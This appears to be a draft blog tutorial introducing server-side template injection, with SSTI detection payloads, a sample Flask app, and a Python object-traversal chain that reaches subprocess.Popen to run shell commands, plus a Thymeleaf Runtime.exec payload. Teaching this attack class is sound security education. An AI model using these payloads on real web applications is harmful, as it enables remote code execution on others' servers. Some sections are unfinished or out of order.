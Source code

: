 # An Introduction to Server-Side Template Injections

The idea of a web application template is basically what it sounds like. Imagine its around the holidays and you are writing letters to 20+ relatives. Having to write 20+ personalized letters to each relative eventually becomes a little tedious. Your letters may end up becoming something like this:

> Dear {relative name}, 
>
> I hope you are doing well. Happy holidays.
>
> Best regards,
>
> {your name}

Web applications use a very similar approach. When a home page displays the friendly "Hello, {your name}", its retrieving data from the server and presenting it onto a template. An example can be seen from my school's learning management system:

![](/images/brightspace.png)

Templates are often used by developers and can be seen in many modern-day dynamic web frameworks. Some of them include:

- Flask/Django
- Laravel
- Hugo
- AngularJS

Because of the such widespread usage, the initial discovery of template injections introduced a whole new class of vulnerabilities still being researched today.

## What are server-side template injections? (SSTIs)
Server-side template injections, or SSTIs, were first introduced by [James Kettle](https://portswigger.net/research/server-side-template-injection) in 2015.

The main idea behind the attack is for a malicious user to abuse the "retrieve data from the server" mechanism, hence the "server-side" part to the name. 

Allowing user-input typically is a bad idea, but in some places it is necessary, such as with forms and chat messages. The issue arises when a server renders and executes the user-input, typically triggered with a special wrapper.

## Testing for SSTI
The common payload `{{7*7}}` used in Kettle's research would, in many frameworks, return to the template `49`. You can see within the curly braces, an equation is being put in the input. Because the server rendered the equation and not as as a normal string, we therefore have a form of code execution and a successful SSTI.

Other payloads with differing syntax may also include:
- `{{7*'7'}}`
- `@(7*7)`
- `${{<%[%'"}}%\.`

Another indicator of SSTI is through finding XSS vulnerabilities depending on the framework. Because both injections cause the server to do a form of rendering, some XSS locations may also be vulnerable to SSTI.

## Exploiting SSTI
So we can now calculate simple math expressions. But how do we use this to go further?

Understanding the idea that the injected code is run in an environment, we therefore should have access to environmental variables.

Depending on the framework, there will be various differences such as programming language, framework builtins, and filtering rules that may be used. Using different types of payloads as mentioned above can help with the identification of the specific framework.

In this case, we will explore various ways of SSTI in Flask.

## Exploring Flask
Flask is a Python based framework and uses Jinja2 as its templating engine. Even though Flask itself incorporates Jinja2, certain filters can still be used to allow for XSS and even SSTI.

Let's take a look at a simple Flask app. The app returns user input from a POST request and passes it back through the `data` variable:

```python
# app.py
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        data = request.form["input"]
        return render_template("index.html", data=data)
    return render_template("index.html")

if __name__ == "__main__":
    app.run(debug=True)
```

We can create an `index.html` template in the `/templates` directory as so:

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
    <head>
        <title>Flask SSTI Testing</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/water.css@2/out/water.css">
    </head>
    <body>
        <h1>Flask SSTI Testing</h1>
        
        <form method="POST">
            <input type="text" name="input">
            <input type="submit" value="Submit">
        </form>
        
        {% if data %}
        <h2>Raw Input:</h2>
        <p>{{ data }}</p>
        {% endif %}
    </body>
</html>
```

You can see the special Jinja2 syntax used in the if statement. As the Flask application renders the template, it checks whether or not the server returned a `data` variable. If so, it will be rendered onto the page.







### Object Tree Traversal
By utilizing Python builtins, we can also traverse object trees to access different types of objects. 

For example in Python, we can use some object properties such as `__mro__`, `__class__`, and `__subclasses__` to traverse up and down the object tree to bypass potential filters. The process on crafting the payload is shown below:

```python
>>> "" # just a string, can be declared
# ' '
>>> "".__class__ # retrieving the class object
# <class 'str'>
```






Following here, we use Python's Method Resolution Order, or MRO, to get all the classes the string class inherits. In this case, we are traversing up the object tree. As shown below, the string is both a string and an object:

```python
>>> "".__class__.__mro__
# (<class 'str'>, <class 'object'>)
>>> "".__class__.__mro__[1] # accessing just object from tuple
# <class 'object'>
```

Provided the object, we can now traverse back down to access a different class/object in the environment. This can be done with the `subclasses()` function. This returns a long list of all existing object in the environment:

```python
>>> "".__class__.__mro__[1].__subclasses() # 
# [<class 'type'>, <class 'weakref'>,
# ...
# <class 'apport.packaging.PackageInfo'>, <class 'gettext.NullTranslations'>]
```

From here, a useful object to obtain RCE is `subprocess.Popen`. Using the returned list from `subclasses()`, we can access the object and run its normal functions to execute code.

```python
>>> ''.__class__.__mro__[1].__subclasses__()[340]('whoami', shell=True, stdout=-1).communicate()[0].strip()
# root
```

### Using Engine Builtins




https://jinja.palletsprojects.com/en/2.11.x/templates/#lipsum



The following will be looking at the popular Flask framework closely and how it may be vulnerable to SSTI.



<!-- 
## Flask Example
Flask is a popular web framework built with Python. It uses a templating engine called Jinja2, which will be the main point of target.
 -->












## References
- https://portswigger.net/research/server-side-template-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt


### Language Builtins
In certain languages, almost everything is an object. Objects, such as strings, arrays, and booleans inherit certain global properties from other classes and will have its own set of functions.

For example in Java, the type T can be used as a payload to run commands and would be vulnerable in Thymeleaf:
```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```